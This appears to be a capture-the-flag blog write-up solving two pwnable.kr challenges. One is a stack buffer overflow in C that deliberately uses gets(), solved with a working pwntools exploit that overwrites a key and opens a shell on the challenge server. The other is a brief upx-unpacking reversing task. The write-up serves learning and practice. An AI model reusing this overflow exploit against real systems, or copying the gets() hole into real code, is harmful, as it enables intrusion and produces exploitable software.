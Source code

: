 ```yaml
---

layout: post
title: Pwn-A-Day Day-3
description: "Pwn challenges for a Month"
date: 2020-05-03
feature_image: images/pwn_a_day/front.png
tags: [Pwn-A-Day]
published: true

---
```



<!--more-->

**So I have taken a challenge to this month to do at least one pwn challenge a day for the entire month of May**

# Day 3

Today I am going to do 2 challenges from this [site](http://pwnable.kr/play.php)

## Name - bof
So we are given with 2 files the binary and the source code
lets view the source code first 

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

So looks like we are given with a buffer 32 bytes long and then we get the buffer using **gets** which is a dangerous function as it doesn't stop reading input till new line occurs after that the value of key variable is compared to a hex strings and if it matches a shell is spawned
so lets look the binary in **gdb-gef**

the  disassembly of main func

![](images/pwn_a_day/day3/1.png)

so it does nothing special here just calls a function named `func`
lets check the disassembly of func

![](images/pwn_a_day/day3/2.png)

So here we can see that our buffer is located at `ebp-0x2c` and our variable key is located at `ebp+0x8` so there is a difference of 52 bytes in between them so we can overflow the buffer with 52 bytes and then supply the value that we want to sent to our key variable

the exploit is given below

```python
from pwn import *

local=False

if local:
	p=process("./bof")
else:
	p=remote("pwnable.kr",9000)

payload=""
payload+="A"*52
payload+=p32(0xcafebabe)

# p.recvuntil("overflow me :")
p.sendline(payload)
p.interactive()
```

we get the flag by using the shell

![](images/pwn_a_day/day3/4.png)

moving on to the next challenge

## Name -flag

so this is just a reversing challenge so we don't need to do buffer overflow or anything
using gdb on binary doesn't give us anything using strings we get this

![](images/pwn_a_day/day3/5.png)

So we unpack it with upx first to get the decoded binary 

lets view the main function so there is a strings named flag present lets check it out

![](images/pwn_a_day/day3/6.png)

you can also view it in ida 

![](images/pwn_a_day/day3/7.png)


That's it for today hope you learnt something !!

